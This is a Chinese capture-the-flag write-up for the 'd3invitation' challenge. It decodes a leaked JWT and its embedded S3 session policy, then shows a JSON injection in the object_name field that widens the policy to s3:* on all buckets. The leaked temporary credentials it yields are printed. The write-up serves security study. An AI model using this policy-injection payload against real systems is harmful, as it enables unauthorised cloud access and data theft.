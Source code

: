







## CTF 中题目体现
### d3invitation
一个登录页面

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1749635672972-3276ecd0-cf12-4054-bf70-76a9072a3c31.png)

上传一个名字跟图像，抓包，可以发现key和id泄露

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1749635673048-22363c8f-1f13-4b42-90e9-f96bde6c5a74.png)

分析这个jwt

```plain
eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJaNlE5OEhMUE9FTkg0RTBFMUlWTiIsImV4cCI6MTc0ODYyMjc3MywicGFyZW50IjoiQjlNMzIwUVhIRDM4V1VSMk1JWTMiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTB4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaWN6TTZSMlYwVDJKcVpXTjBJaXdpY3pNNlVIVjBUMkpxWldOMElsMHNJbEpsYzI5MWNtTmxJanBiSW1GeWJqcGhkM002Y3pNNk9qcGtNMmx1ZG1sMFlYUnBiMjR2Tmprd1lUZ3dOMlUyWW1NNU5HWmxNVEV5TldReU5tTTFaakkxWW1FNVpDNXFjR2NpWFgxZGZRPT0ifQ.TXr-XgRJtPFXLOcKKCEB-j8PUx6H2ssvdt-Y3WOBehrESEf51XiibCz6SqtQ2aBCGpiW_i1eNlnawm7dNsq1dQ
```

--》

```plain
{
  "accessKey": "Z6Q98HLPOENH4E0E1IVN",
  "exp": 1748622773,
  "parent": "B9M320QXHD38WUR2MIY3",
  "sessionPolicy": "eyJWZXJzaW9uIjoiMjAxMi0xMC0xNyIsIlN0YXRlbWVudCI6W3siRWZmZWN0IjoiQWxsb3ciLCJBY3Rpb24iOlsiczM6R2V0T2JqZWN0IiwiczM6UHV0T2JqZWN0Il0sIlJlc291cmNlIjpbImFybjphd3M6czM6OjpkM2ludml0YXRpb24vNjkwYTgwN2U2YmM5NGZlMTEyNWQyNmM1ZjI1YmE5ZC5qcGciXX1dfQ=="
}
```

base64解码

```plain
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:GetObject","s3:PutObject"],"Resource":["arn:aws:s3:::d3invitation/690a807e6bc94fe1125d26c5f25ba9d.jpg"]}]}
```

我们逃逸这个，伪造一个，保证我们获得访问权限

```plain
{ "object_name": "690a807e6bc94fe1125d26c5f25ba9d.jpg\"],\"Action\":[\"s3:*\"],\"Resource\":[\"arn:aws:s3:::*\"],\"test\":[\"test" }
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1749635673090-fb41e446-8009-4379-b5c4-3c72a1028470.png)

```plain
{
  "access_key_id": "F3BZ2MHNQYP7T4ZLFGG1",
  "secret_access_key": "NF39mk0QsXRhzs5kfq1fUIF2bvrVU3HUoROqOIOO",
  "session_token": "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJGM0JaMk1ITlFZUDdUNFpMRkdHMSIsImV4cCI6MTc0ODYyMzk0NCwicGFyZW50IjoiQjlNMzIwUVhIRDM4V1VSMk1JWTMiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTB4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaWN6TTZLaUpkTENKU1pYTnZkWEpqWlNJNld5SmhjbTQ2WVhkek9uTXpPam82S2lKZGZWMTkifQ.NXmVD94r6yY3Gb1QA1GqS0IrErLnHIkHvb_My9xPiqJLMFBCDtXY2wcFeghTtpBc3ABNa3z5ZfbioVXF7yVpWw"
}
```
